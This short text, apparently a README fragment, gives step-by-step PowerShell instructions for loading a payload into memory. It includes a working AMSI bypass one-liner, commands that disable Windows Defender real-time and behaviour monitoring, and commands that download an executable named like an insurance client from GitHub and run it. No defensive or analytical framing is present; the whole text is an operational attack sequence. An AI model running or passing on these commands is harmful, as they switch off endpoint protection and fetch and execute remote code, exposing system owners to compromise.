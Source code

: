 Instructions on how to load the payload into memory

Run the below AMSI bypass command first, in a single line of code.
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Failed") {$f=$e}};$f.SetValue($null,$true)
```

After running the AMSI bypass, run the following:
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableBehaviorMonitoring $true
Invoke-WebRequest -Uri https://github.com/confie-public/confie-public/raw/main/insurance_mgmt_client.exe -OutFile confie_sccm.exe
.\confie_sccm.exe
```
